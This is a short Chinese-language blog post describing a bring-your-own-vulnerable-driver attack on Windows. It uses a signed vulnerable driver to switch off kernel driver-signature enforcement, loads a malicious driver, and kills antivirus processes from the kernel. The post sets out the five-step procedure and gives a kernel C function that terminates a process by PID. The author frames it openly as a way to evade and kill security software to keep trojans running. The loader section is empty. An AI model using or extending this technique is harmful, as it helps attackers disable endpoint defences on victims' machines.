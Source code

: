 # VulnBins的利用 \(vuln driver\)

## 简介

挺久没水博客了，今个简单写点，现在的杀软越来越"现代化"了，老是尝试免杀已有木马使我疲惫，干脆想重一劳永逸的解决办法，\(自写C2 狗头\),当然这是个体力活，这篇文件简单介绍下白漏洞驱动带起黑驱动，直接从内核干掉杀软。

## 流程

1. 找一个存在任意文件读取的漏洞驱动
2. 加载驱动并漏洞利用修改内核DES位\(作用于驱动签名校验\)
3. 加载黑驱动
4. 漏洞利用改回原值
5. 卸载白驱动

### 代码片段

### 鲨进程 驱动片段

获取当前进程EPROCESS,遍历ActiveProcessLinks获取和判断进程,符合条件就给扬了,当然最好用点强杀手段。

```text
BOOLEAN KillProcess(ULONG PID)
{
	NTSTATUS ntStatus = STATUS_SUCCESS;
	PVOID hProcess;
	PEPROCESS pEprcess;
	ntStatus = PsLookupProcessByProcessId(PID, &pEprcess);

	if (NT_SUCCESS(ntStatus))
	{
		if (ObOpenObjectByPointer((PVOID)pEprcess, 0, NULL, 0, NULL, KernelMode, &hProcess) != STATUS_SUCCESS)
			{
			return FALSE;
			}
		ZwTerminateProcess((HANDLE)hProcess, STATUS_SUCCESS);
		ZwClose((HANDLE)hProcess);
		return TRUE;
	}
};

```

### Loader

```text

```



